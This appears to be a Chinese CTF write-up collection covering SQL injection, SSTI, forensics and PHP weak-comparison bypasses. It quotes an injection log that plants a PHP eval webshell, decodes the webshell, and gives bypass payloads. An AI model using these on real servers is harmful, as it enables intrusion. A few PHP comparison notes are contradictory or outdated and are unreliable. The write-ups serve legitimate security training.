






# CTF WP

## [LitCTF 2023]就当无事发生

https://www.nssctf.cn/problem/3862

* 考点：.git泄露,信息收集
* 工具：github

根据题目提示信息可知只要回溯到之前的某次github提交即有可能获取敏感信息，可以根据git的特性，查看历史commit修改记录，通过搜索找到敏感字符串，即本题flag。

只能说不愧是杂项，这种方式的题第一次见

## [MoeCTF 2022]Sqlmap_boy

https://www.nssctf.cn/problem/3350

* 考点：sql注入
* 工具：sqlmap,burpsuit

浏览器F12查看源码，发现有提示，根据提示的sql格式对输入进行闭合操作，注意引号类型不同无法闭合；成功闭合后跳转到可注入连接，注意到有一个id变量可供注入，使用sqlmap构建命令；使用参数-dump直接输出数据库的所有具体表项内容，找到flag

sqlmap的-dump很好用，同时对于登录后的sql注入需要注意使用sqlmap时使用Cookie保持session
参考使用指南：
https://blog.csdn.net/qq_45719090/article/details/129241110
https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/

## [HDCTF 2023]LoginMaster

https://www.nssctf.cn/problem/3782

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解

## [第五空间 2021]yet_another_mysql_injection

https://www.nssctf.cn/problem/334

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解

## [LitCTF 2024]一个....池子？

https://www.nssctf.cn/problem/5606

* 考点：SSTI
* 工具：fenjing

- [ ] 完全理解

使用工具 `fenjing`，直接对可绕过链接进行操作，绕过成功后即可进行过命令操控

fenjing工具：https://github.com/Marven11/FenJing

## [2022蓝帽杯]手机取证1(初级)

https://www.nssctf.cn/problem/2443
https://forensics.didctf.com/challenges#%E6%89%8B%E6%9C%BA%E5%8F%96%E8%AF%81_1-41

* 考点：电子取证
* 工具：盘古石阅读器（题目提供）
* 直接使用题目提供的盘古石阅读器大概苹果测试的文件夹进行搜索即可，可以得到匹配的flag内容（图像分辨率）
  

## [2023陇剑杯]Wireshark1_1

https://www.nssctf.cn/problem/6359
https://forensics.didctf.com/challenges#Wireshark1_1-552

* 考点：流量分析
* 工具：wireshark
  使用wireshark查看流量包，可以通过长度和协议类型明显的看到异样的流量，进一步追踪流并阅读明文内容可知确实为入侵流量，查看目的ip地址即得flag


## [2022蓝帽杯]网站取证_2

https://www.nssctf.cn/problem/2452 
https://forensics.didctf.com/challenges#%E7%BD%91%E7%AB%99%E5%8F%96%E8%AF%81_2-52

* 考点：PHP代码审计
* 工具：任意文本查看工具，PHP
通过审计阅读提供的代码源文件，可以发现数据库的登录密码使用了my_encrypt()这个函数，在encrypt.php这个文件中可以找到这个函数的具体内容，其将字符串进行了AES解密后进行base64解密得到明文密码，但是要注意，这里的php环境版本比较低，所以如果php配不好的话就需要手动实现代码中的步骤，我是手动实现，也可以得到结果

## [OtterCTF 2018]General Info
* 考点：内存取证
* 工具：Volatility（https://github.com/volatilityfoundation/volatility3）
本题考查对于内存取证工具的使用，通过Volatility对vmem文件进行分析，找到PC名和IP即可

## [应急响应]welog1

https://forensics.didctf.com/challenges#welog1-703

* 考点：日志分析,PHP审计
* 工具：文本查看工具，base64
分析给出的日志，可以发现在最后的几行中出现了敏感信息`fl4g`,其中一条日志为：
```
192.168.150.1 - - [10/Mar/2023:08:23:05 +0000] "GET /index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22%23 HTTP/1.1" 200 1194 "http://192.168.150.31:9999/index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22--%2B+" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"
```
将十六进制的内容写入了`/var/www/html/test2.php`这个文件，对十六进制的字符串进行解码后得得到下面的内容：


```bash
"<?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>"
```
这个是典型的一句话木马，攻击者可以通过`3b90d75de248ce55b66e8e30873b6000`进行连接，即为本题的答案

<!-- ## [陇剑杯 2021]SQL注入

https://www.nssctf.cn/problem/295

## [SWPUCTF 2021 新生赛]easyupload1.0

https://www.nssctf.cn/problem/388

## [鹏城杯 2022]简单包含

https://www.nssctf.cn/problem/2422

## [FSCTF 2023]是兄弟，就来传你の🐎！

https://www.nssctf.cn/problem/4561

## [HNCTF 2022 WEEK2]easy_include

https://www.nssctf.cn/problem/2948


## [CISCN 2023 华北]ez_date 

https://www.nssctf.cn/problem/4096

## [GHCTF 2024 新生赛]理想国 

https://www.nssctf.cn/problem/5145

## [CISCN 2019华东南]Web4 

https://www.nssctf.cn/problem/6

## [CISCN 2023 华北]pysym 

https://www.nssctf.cn/problem/4098 -->

## [GDOUCTF 2023]受不了一点 

https://www.nssctf.cn/problem/3727

* 考点：弱比较，数组绕过，php审计
* 工具：yakit(burpsuit/hackbar等都可以)

### 题解部分：
题目直接给出了一个php代码，代码如下：


审计`php`代码可以知道，这个代码是通过多个`if`语句进行条件判断来隐藏flag信息，只要一层层按照`if`的要求完成即可

下面是对代码有用部分的简单解读：

```php
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
```
检查 POST 请求是否包含 `gdou` 和 `ctf` 两个字段并将这两个字段分别赋值给 `$a` 和 `$b`。

**在满足了上述代码的`if`条件后，即存在需要的那两个字段才能继续下面的部分，所以需要我们去在`POST`包中添加两个指定的字段名称**

```php
if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
```
代码首先检查 `gdou` 和 `ctf` 是否相等（`$_POST['gdou']!=$_POST['ctf']`）以及两个字段的 MD5 哈希值是否相同,如果它们的字段值不同并且哈希值相同，则允许继续执行下面的内容。
  
**这里用到的是md5绕过，PHP 中的`md5()`函数允许你使用数组作为该函数的参数，`md5()` 函数对于任何数组都将返回`NULL`,所以，可以构建`gdou[]=1&ctf[]=2`**

```php
if(isset($_COOKIE['cookie'])){
   if ($_COOKIE['cookie']=='j0k3r'){
```
代码检查是否有名为 `cookie` 的 Cookie，并且其值为 `'j0k3r'`满足条件则进入下一个代码块则继续执行。

**在POST包中添加`Cookie：cookie=j0k3r`即可。**

```php
if(isset($_GET['aaa']) && isset($_GET['bbb'])){
    $aaa=$_GET['aaa'];
    $bbb=$_GET['bbb'];
```
检查 URL 参数中是否包含 `aaa` 和 `bbb`,如果都有则继续.
  
**所以我们要在`url`即`header`部分添加`/?aaa&bbb`的部分，其具体的值下面会给出。**

```php
if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
    $give = 'cancanwordflag';
    $get ='hacker!';
```
如果 `aaa` 和 `bbb` 的值都为 `114514`，并且 `aaa` 不等于 `bbb`那么设置两个变量 `$give` 和 `$get`，分别为 `'cancanwordflag'` 和 `'hacker!'`。
  
**这里用到了php代码中弱比较`==`的特点，因此可以构造`/?aaa=114514&bbb=114514a`来满足要求**

```php
echo $flag;
```
最后，如果代码成功运行到了这里，则输出 `$flag` 变量的值。
  
**整体来看，其实是套了5层`if`语句的闯关游戏，全部按要求完成即可。**

最后得到的如下的`POST`包:


这里还要注意一个细节，由于我们使用的是POST请求，所以需要指定`Content-Type: application/x-www-form-urlencoded`,表单字段的名称和值会以`key=value`的形式组成字符串，多个字段之间通过`&`符号连接，且特殊字符会被`URL`编码，这样`$_POST['gdou']`才能读取到.

### `php`中弱比较的总结：

- 在 PHP 中，**字符串与数字比较时，字符串会被自动转换为数字**（如果可能的话）。
- **PHP 会对字符串进行类型转换**，将其从 `string` 转换为 `int` 或 `float`，如果转换失败则默认为 `0`。
- **`==`（弱比较）会进行类型转换**，而 **`===`（严格比较）不会**，严格比较时要求类型和值都相同。
  
1. **字符串与数字的比较原则**

PHP 在进行字符串和数字比较时，会尝试将字符串转换为数字类型。具体规则如下：

- 如果字符串的开始部分是一个有效的数字，PHP 会将其转换为该数字。例如，`"123abc"` 会被转换为 `123`，而 `"abc123"` 会被转换为 `0`。
- 如果字符串不包含有效的数字，则会被转换为 `0`。

2. **比较规则示例**

- **数字字符串与数字的比较**
```php
'123' == 123  // true，字符串 '123' 被转换为数字 123，与数字 123 比较，结果为相等
```
- **包含非数字字符的字符串与数字的比较**
```php
'123abc' == 123  // true，字符串 '123abc' 被转换为数字 123
'abc123' == 0    // true，字符串 'abc123' 被转换为数字 0
```
- **字符串与数字不等的比较**
```php
'0' == 0        // true，字符串 '0' 被转换为数字 0，与数字 0 比较
'0.1' == 0      // true，字符串 '0.1' 被转换为数字 0.1，与数字 0 比较，结果为不相等
'123abc' == 123 // true，字符串 '123abc' 被转换为数字 123
```
- **字符串完全无法转换为数字的情况**
```php
'hello' == 0    // true，字符串 'hello' 无法转换为数字，PHP 会把它转换为 0，所以等价于 0 == 0
```

3. **弱比较 `==` 与严格比较 `===` 的区别**

- **`==`（弱比较）**：PHP 会尝试将操作数转换为相同的类型后再进行比较。例如，数字和字符串之间的比较会发生类型转换，如前面的例子所示。

- **`===`（严格比较）**：PHP 在进行严格比较时，会比较变量的类型和内容，只有类型和值都相同才会返回 `true`。
                 
**示例：**
```php
'123' == 123      // true，'123' 被转换为数字 123
'123' === 123     // false，字符串和数字类型不同
```

**特殊情况**

由于 PHP 的类型转换行为，可能会遇到一些不符合直觉的比较结果。例如：

```php
'1' == true       // true，因为字符串 '1' 被转换为数字 1，而 true 也转换为 1
'0' == false      // true，因为字符串 '0' 被转换为数字 0，而 false 也转换为 0
```